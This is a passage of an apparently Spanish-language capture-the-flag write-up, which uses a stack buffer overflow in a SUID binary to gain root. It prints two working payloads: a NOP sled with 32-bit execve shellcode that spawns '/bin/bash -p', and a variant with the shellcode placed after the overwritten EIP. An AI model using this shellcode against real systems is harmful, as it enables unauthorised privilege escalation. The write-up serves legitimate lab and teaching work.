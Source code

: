 ```bash
/opt/dontexecute $(python -c 'print b"\x90"*479 + b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + b"\x90\xd5\xff\xff"')
```

Observamos como hemos conseguido convertirnos en **root** abusando de permisos SUID a través de un Buffer OverFlow.

![](<../assets/images/posts/2024-10-20-buffemr/Pasted image 20240912010350.png>)
### Opción 2

> *Destacar que está opción no se como realmente funciona, pues no tiene mucho sentido que sea funcional de esta manera.*

Como alternativa podremos cargar nuestro **shellcode** al principio de la pila, pues el **ASLR** se encuentra **deshabilitado**, para llevar a cabo esto debemos ver la dirección de memoria del **EIP** para ello haremos un `i r` dentro del propio `gdb`.

![](<../assets/images/posts/2024-10-20-buffemr/Pasted image 20240912003132.png>)

En este punto lo que haremos será introducir nuestro **shellcode** después del **EIP** por lo que irá al principio de la pila.

```bash
r $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*512 + b"\x70\xd2\xff\xff" + b"\x90"*100 + b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80")')
```
